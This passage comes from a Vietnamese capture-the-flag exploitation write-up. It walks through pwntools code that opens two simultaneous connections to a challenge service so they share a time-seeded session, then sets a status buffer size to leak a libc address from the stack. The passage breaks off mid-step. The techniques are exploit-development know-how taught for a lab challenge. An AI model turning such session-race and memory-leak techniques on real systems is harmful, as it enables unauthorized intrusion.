 Trước khi tiến hành khai thác, mình sẽ viết các hàm để đọc và gửi dữ liệu ứng với các process:

```python
info = lambda msg: log.info(msg)
sla = lambda con, msg, data: con.sendlineafter(msg, data)
sa = lambda con, msg, data: con.sendafter(msg, data)
sl = lambda con, data: con.sendline(data)
```

### Bước 1: Leak địa chỉ libc

Vì ta muốn 2 tiến trình kết nối cùng lúc nên ta sẽ dùng đoạn code sau:

```python
if args.REMOTE:
    p = remote('0', 1337)
    q = remote('0', 1337)
else:
    p = process(exe.path)
    q = process(exe.path)
```

Tiến trình p là chính và sẽ được dùng để khai thác, còn tiến trình q sẽ hỗ trợ việc khai thác. Việc đầu tiên khi kết nối đó là ta sẽ cần phải sign up để có 1 tài khoản hỗ trợ đăng nhập:

```python
cred = b'4321'
sla(p, b'> ', b'1')
sla(p, b'Username: ', cred)
sla(p, b'Password: ', cred)
```

Việc sign up thì có thể cho tiến trình nào tạo cũng được. Sau khi tạo xong, vì cả 2 tiến trình kết nối cùng lúc nên giá trị `time(0)` là giống nhau, suy ra giá trị seed cho srand cũng giống nhau. Vì thế khi sign in trước hay sau không quan trọng cũng sẽ cho ra session giống nhau:

```python
sla(p, b'> ', b'2')
sla(p, b'Username: ', cred)
sla(p, b'Password: ', cred)

sla(q, b'> ', b'2')
sla(q, b'Username: ', cred)
sla(q, b'Password: ', cred)
```

Bây giờ, để leak địa chỉ, ta sẽ cần thiết lập size của tiến trình p thành `0x39` (giá trị lớn nhất cho phép sử dụng con trỏ stack):

```python
time.sleep(0.5)
sla(p, b'> ', b'3')
sla(p, b'Size: ', b'9')
sa(p, b'Status: ', b'1'*0x39)
```

Lưu ý biến `size` sẽ được cập nhật lại theo số lượng byte do người dùng nhập vào nên ta cần phải nhập đủ `0x39` ký tự để `size` vẫn giữ nguyên. Nếu size là `0x39` mà cũng ghi vào file status là `0x39` ký tự thì khi get status sẽ không thể leak được gì trên stack. Do đó ta sẽ lợi dụng tiến trình q cùng một session để chỉnh sửa file status lại:
